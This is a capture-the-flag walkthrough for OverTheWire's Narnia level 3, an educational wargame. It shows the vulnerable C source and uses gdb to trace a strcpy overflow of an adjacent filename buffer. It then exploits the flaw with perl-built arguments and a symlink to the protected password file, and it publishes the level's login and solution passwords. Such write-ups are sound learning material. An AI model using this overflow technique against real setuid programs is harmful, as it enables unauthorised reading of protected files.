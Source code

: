 # Level 3 → Level 4

## Solution
```
ssh narnia3@narnia.labs.overthewire.org -p 2226
```
```
8SyQ2wyEDU
```
```
cd /narnia ; ls -al
```

```
./narnia3
```

![](0.png)

```
./narnia3 /etc/narnia_pass/narnia4
```

![](1.png)

Is it possible to print `/dev/null`? [No](https://linuxhandbook.com/dev-null/). So let's look at the code:

```
cat narnia3.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

There is no return in this code.<br />
Therefore there is no return value that we can overwrite...

But what really stands out here is again `strcpy` function. We will try to overwrite the string in `ofile` to be our **own file**. can we do this Let's check:

```
tempdir=$(mktemp -d) ; cd $tempdir
```
```
chmod 777 .
```
```
echo "File to copy" > $(perl -e 'print "A"x32')
```
```
touch $(perl -e 'print "B"x10')
```

Let's see what happens:

```
/narnia/narnia3 $(perl -e 'print "A"x32 . "B"x10')
```

![](2.png)

What exactly happened?? <br />
It seems that the program was able to open `BBBBBBBBBB`, but failed with `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` because the name of the file is appended to the name of the next file...

Let's check what happened in the stack memory:

```
gdb /narnia/narnia3
```
```
disas main
```

![](3.png)

Since we want to see the stack immediately after strcpy, we set the breakpoint to be at address `0x0804922d`:

```
b *0x0804922d
```
```
r $(perl -e 'print "A"x32 . "B"x10')
```
```
x/40x $sp
```

![](4.png)

* Light Blue - `buf` (junk content)
* Green - `ifile`
* Yellow - `ofile`
* Red - `ofd` (junk content)
* Purple - `ifd` (junk content)

This mean that in the code `strcpy(ifile, argv[1]);` the name of the file `ifile` is like a string that should end in `\x00`. And because in this case there is no such character, the software tries to open the file `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBB` which actually does not exist.

So we will rename the ifile file to be 31 characters to reset the last character.

```
exit
```
```
rm $(perl -e 'print "A"x32')
```
```
echo "File to copy" > $(perl -e 'print "A"x31')
```
```
/narnia/narnia3 $(perl -e 'print "A"x31 . "\x00" . "B"x10')
```

![](5.png)

I think I understand what's going on here.. The character \x00 cannot be inserted. We will check that this character was really ignored:

```
gdb --args /narnia/narnia3 $(perl -e 'print "A"x31 . "\x00" . "B"x10')
```
```
b *0x0804922d
```
```
r
```
```
x/40x $sp
```

![](6.png)

very annoying Can we maybe change the null character to something else? We will check:

```
exit
```
```
/narnia/narnia3 $(perl -e 'print "A"x31 . "\x01" . "B"x10')
```

![](7.png)

probably not.<br />
But when I saw this, I had the following idea:

We will actually create the file `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBB`. This file will be a soft link to the password.
When we enter it into the software, it will cause it to open `BBBBBBBBBB` as an `ofile`.
After that it will copy the file `ifile` to `ofile` and that's it. Let's try this:

```
cd ~ ; rm -r $tempdir ; tempdir=$(mktemp -d) ; cd $tempdir
```
```
chmod 777 .
```
```
ln -s /etc/narnia_pass/narnia4 $(perl -e 'print "A"x32 . "B"x10')
```
```
touch  $(perl -e 'print "B"x10')
```
```
ls -al
```

![](8.png)

```
/narnia/narnia3 $(perl -e 'print "A"x32 . "B"x10')
```
```
cat BBBBBBBBBB
```

![](9.png)

```
cd ~ ; rm -r $tempdir
```

## Password for the next level:
```
aKNxxrpDc1
```

